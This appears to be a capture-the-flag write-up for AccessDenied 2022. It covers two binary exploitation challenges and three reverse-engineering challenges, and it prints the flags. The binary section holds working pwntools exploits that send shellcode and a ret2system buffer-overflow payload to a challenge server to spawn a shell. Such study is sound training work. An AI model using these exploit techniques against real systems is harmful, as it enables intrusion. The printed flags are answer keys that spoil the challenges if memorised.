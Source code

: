 # Binary Exploitation

## Shellcode

### Files

[Download Files](https://github.com/nomnom-CTF/website/raw/gh-pages/accessdenied-2022/files/shellcode.zip)

### Description

The challenge executes the machine code that we supply to the input.

### Solution

pwntools makes life easy when it comes to crafting shellcode, especially since the character limit is pretty big (512 characters is the limit).

```python
from pwn import *

r = remote('34.134.85.196', 5337)
elf = context.binary = ELF('./shellcode')

payload = flat(
    asm(shellcraft.sh())
)

print(asm(shellcraft.sh()))

r.sendline(payload)
r.interactive()
```
`flag: accessdenied{3x3cut3d_x64_sh3ll_0v3rfl0w_5ucc3ssfully_611a1501}`

## ret2system

### Files

[Download Files](https://github.com/nomnom-CTF/website/raw/gh-pages/accessdenied-2022/files/ret2system.zip)

### Description

The challenge asks us for 2 inputs, the string we want to store and our buffer overflow payload.

### Solution

Since the challenge uses system within the binary itself, we don't need to leak libc, we can just use plt@system to get a shell. In order to get a shell, we need to call `plt@system("/bin/sh")` but after looking through gdb and ida I couldn't find the `/bin/sh` string. This is where we can make use of the first input we're asked to give; Since the program stores the first input into memory we can just supply the `bin/sh` to that input, and we will have it saved in memory. After doing all that, we still need to take care of the stack alignment issues ([read more about stack alignment issues here](https://ropemporium.com/guide.html#Common%20pitfalls)), so we will need to add a return before calling system and that should be it. Running the following code will give us the flag:

```python
from pwn import *
from pprint import pprint

r = remote('34.134.85.196', 9337)
elf = context.binary = ELF('./ret2system')

ret = 0x0804900e

r.sendlineafter(b'value', b'bin/sh\x00')

pprint(elf.sym)

payload = flat(
    'a'*40,
    p32(ret),
    elf.plt['system'],
    p32(0x00),
    elf.sym['store']
)

r.sendlineafter(b'now', payload)
r.interactive()
```

`flag: accessdenied{n3xt_1_w1ll_n0t_1nclud3_system_func710n_1t53lf_e8dd6fc7}`

# Reverse Engineering

## babyrev

### Files

[View Source Code](files/rev1.c)

### Description

The program encrypts a flag, and we're going to have to decrypt it.

### Solution

The reverse function is self-inverse so we can use the same function to decrypt the flag. Doing the encryption steps backwards, will give us the flag.

```python
flag = [-111, -47, -47, -79, -39, -39, 49, -79, 97, -127, -79, 49, -55, 9, 27, 89, -19, 59, 97, 49, -19, 89, -37, 121, -37, 89, -69, -37, -19, -111, 89, -37, -19, 113, -71, 97, -19, -101, 49, 49, 11, 91, -69, 11, -79, -87]
xor = 23

def reverse(ch):
    x=0 
    for i in range(8):
        x*=2
        if ch & (1 << i):
            x+=1
    print(x)
    return chr(x)

for i in range(len(flag)):
    flag[i]^=xor
    flag[i] = reverse(flag[i])
print("".join(flag))
```

`flag: accessdenied{x0r_4nd_r3v3r53_ar3_fun_1dd8258e}`

## Enormous

### Files

[Download Files](https://github.com/nomnom-CTF/website/raw/gh-pages/accessdenied-2022/files/enormous)

### Description

We are given a program that has tons of if statements to check if the input we supplied is correct or not.

### Solution

When I opened up the program up in IDA, i realized that there is a very little chance that the flag would actually be this long. So i tried to find what if statement has a comparison with the number 125 which is the ascii value of `}` (since `}` indicates that we reached the end of the flag) and i realized that it's actually not that far down, so instead of writing a script and automating it, i just ran through the code manually and got the following flag:

`flag: accessdenied{US3_AngR_F0R_M4k1nG_Lif3_B3Tt3R_57a27836}`

## Bits are Fun

### Files 

[View Source Code](files/rev2.c)

### Description

The program encrypts a flag, and we're going to have to decrypt it.

### Solution

The source code looks really tedious to read and can get really confusing. My intuition was telling me that the `left_rotate_and_right_rotate()` function is self-inversible, so i tried it out on a few of my own inputs. After a few expirements i found out that calling the function n-1 times on the input (where n is the number of characters in the flag) will actually revert it back to its original form. So since the encrypted flag has 61 characters, calling the function on the flag 60 times, will give us the flag in its original form (decrypted).

```c
#include <stdio.h>
#include<stdlib.h>
#include<string.h>

#define MAXSIZE 100

char flag[] = {105, 97, 103, 115, 113, 102, 103, 100, 97, 111, 108, 113, 100, 59, 108, 118, 119, 112, 26, 118, 52, 116, 49, 117, 54, 78, 100, 127, 112, 27, 103, 96, 118, 125, 112, 26, 118, 52, 116, 49, 53, 119, 52, 90, 49, 119, 98, 30, 120, 100, 119, 53, 75, 52, 49, 97, 102, 103, 54, 117, 97};

void left_rotate_and_right_rotate(char str[]) {
    int len = strlen(str);
    for(int i = 0; i < 8; i++) {
        if((i & 1)) {
            int store = ((((1 << i) & str[len - 1]) > 0) ? 1 : 0);
            for(int j = len - 2; j >= 0; j--) {
                int bit = ((((1 << i) & str[j]) > 0) ? 1 : 0);
                str[j + 1] &= (~(1 << i));
                str[j + 1] |= (1 << i) * bit;
            }
            str[0] &= (~(1 << i));
            str[0] |= (1 << i) * store;
        }
        else {
            int store = ((((1 << i) & str[0]) > 0) ? 1 : 0);
            for(int j = 1; j < len; j++) {
                int bit = ((((1 << i) & str[j]) > 0) ? 1 : 0);
                str[j - 1] &= (~(1 << i));
                str[j - 1] |= (1 << i) * bit;
            }
            str[len - 1] &= (~(1 << i));
            str[len - 1] |= (1 << i) * store;
        }
    }
}

int main()
{
    for(int i = 0; i < 60; i++){
        left_rotate_and_right_rotate(flag);
    }
    printf("%s", flag);

    return 0;
}
```

`flag: accessdenied{l3ft_r0t4t3_4nd_r1ght_r0t4t35_4r3_h4rd_5a43cfe4}`
